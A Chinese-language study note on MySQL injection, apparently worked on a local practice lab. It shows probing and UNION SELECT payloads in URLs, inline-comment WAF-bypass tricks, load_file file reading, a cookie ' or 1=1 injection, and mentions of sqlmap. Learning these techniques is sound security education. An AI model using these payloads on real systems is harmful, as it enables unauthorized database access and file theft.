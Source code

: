 ### 1. MySQL注入知识点

```sql
select user(); -- 查看当前MySQL登录用户名
select database(); -- 当前使用MySQL数据库名
select version(); -- MySQL版本
select * from admin limit 2,3; -- 从第二行开始查出三条结果
三种注释：--空格 或 # 或 /**/

/*内联注释*/
/*! SQL语句 */ 只有MySQL可以识别，常用来绕过WAF
select * from article where id = id
-- 下面这条语句执行到id=-1时会报错，然后执行后面的内联语句；使用注释来进行关键字的包含，所以后面的语句可以被MySQL执行
select * from article where id = -1 /*!union*//*!select*/ 1,2,3,4 

空格 可以改成 %20
```

### 2. SQL注入分类

根据注入位置数据类型可将SQL注入分为：数字型、字符型

### 3. GET基于报错的SQL注入

通过在URL中修改对应的ID值，为正常数字、大数字、字符（单引号、双引号、双单引号、括号）、反斜杠来探测URL中是否存在注入点。

![](https://winterliublog.oss-cn-beijing.aliyuncs.com/winterliu-notes/JVM/20201007161921.png)

```sql
## 假如SQL语句如下
select login_name, password from admin where id = ('ID') LIMIT 0, 1;
## 构造URL如下（那个➕可以注释掉后面的SQL）
192.168.1.106/sql/less-3/?id=1') --+
```

### 4. GET基于报错的SQL注入利用

![](https://winterliublog.oss-cn-beijing.aliyuncs.com/winterliu-notes/JVM/20201007163424.png)

```sql
## 正常URL请求
http://192.168.1.106/sql/less/?id=1

-- 1.利用order by判断字段数(通过增大order by后面的数字来猜测有几个字段)
http://192.168.1.106/sql/less/?id=1' order by 3--+

-- 2.利用union select联合查询，获取表名
首先通过第一步知道有3个字段，那么你就可以通过如下联合查询知道是第几个字段：
http://192.168.1.106/sql/less/?id=-1' UNION SELECT 1,2,3--+

http://192.168.1.106/sql/less/?id=-1' UNION SELECT 1,user(),database()--+
```

![](https://winterliublog.oss-cn-beijing.aliyuncs.com/winterliu-notes/JVM/20201007171150.png)

### 5. 利用SQLmap进行SQL注入漏洞利用

不需要自己组织SQL语句来注入

### 6. 利用MySQL注入读写文件

读取前提：

![](https://winterliublog.oss-cn-beijing.aliyuncs.com/winterliu-notes/security/20201007174022.png)

利用MySQL读取磁盘上的某个文件的内容：

```mysql
select load_file('/User/liuwentao/Desktop/test.txt')
```

![](https://winterliublog.oss-cn-beijing.aliyuncs.com/winterliu-notes/security/20201007174315.png)

![](https://winterliublog.oss-cn-beijing.aliyuncs.com/winterliu-notes/security/20201007174816.png)

写文件：

![](https://winterliublog.oss-cn-beijing.aliyuncs.com/winterliu-notes/security/20201008092933.png)

### 7. Cookie注入

![](https://winterliublog.oss-cn-beijing.aliyuncs.com/winterliu-notes/security/20201008093813.png)

利用`' or 1=1 --+`注入

自己写比较繁琐，所以利用SQLmap进行注入：

![](https://winterliublog.oss-cn-beijing.aliyuncs.com/winterliu-notes/security/20201008094516.png)

![](https://winterliublog.oss-cn-beijing.aliyuncs.com/winterliu-notes/security/20201008094748.png)

### 8. 总结

无论什么注入都是需要可以进行输入的，用户可以进行修改，然后输入的值会被传递到服务器，并作为SQL语句执行。

